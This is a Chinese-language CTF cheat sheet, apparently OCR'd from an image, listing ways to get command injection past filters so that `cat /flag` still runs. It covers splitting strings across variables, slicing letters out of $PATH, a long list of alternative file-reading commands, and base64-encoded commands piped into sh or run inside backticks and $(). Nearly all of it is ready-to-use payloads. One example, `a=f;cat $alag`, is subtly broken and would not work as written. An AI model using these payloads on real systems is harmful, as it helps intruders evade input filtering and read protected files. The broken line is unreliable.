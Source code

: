 ### 内联执行（$拼接）

- `cat /flag` -> `a=f;cat $alag`

### 利用 linux 中的环境变量

```sh
echo $PATH
# /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- `cat /flag` -> `cat ${PATH:0:1}f${PATH:5:1}ag`

## 常见文件读取命令绕过

- `cat`

- `tac`: 从最后一行开始显示，可以看出`tac`是`cat`的倒着写

- `nl`: 显示的时候，顺便输出行号

- `more`: 一页一页的显示文件内容

- `less`: 与`more`类似，但是比`more`更好的是，他可以往前翻页

- `head`: 只看头几行

- `tail`: 只看尾巴几行

- `od`: 以二进制的方式读取文件（转换成字符：`od -A d -c /flag`）

- `strings`: 以字符串的方式读取文件

- `xxd`: 以 16 进制的方式读取文件

- `iconv`: 转换文件编码

- `base64`: 以 base64 的方式读取文件（还有`base32`、`base58`）

- `sort`: 排序

- `uniq`: 去重

- `file -f`: 识别文件类型，-f 参数表示识别文件中表示的文件路径，报错就可以显示出文件内容（no such file or directory）

- `grep`: 用法：`grep { /flag`，表示在`flag`文件中查找`{`字符串

## 编码绕过

### base64

- `cat /flag` -> `echo Y2F0IC9mbGFn | base64 -d | sh`

- `cat /flag` -> \`echo Y2F0IC9mbGFn | base64 -d\` （Linux 中反引号表示执行命令）

- `cat /flag` -> `$(echo Y2F0IC9mbGFn | base64 -d)`

- `cat /flag` -> `printf "Y2F0IC9mbGFn" | base64 -d | sh`
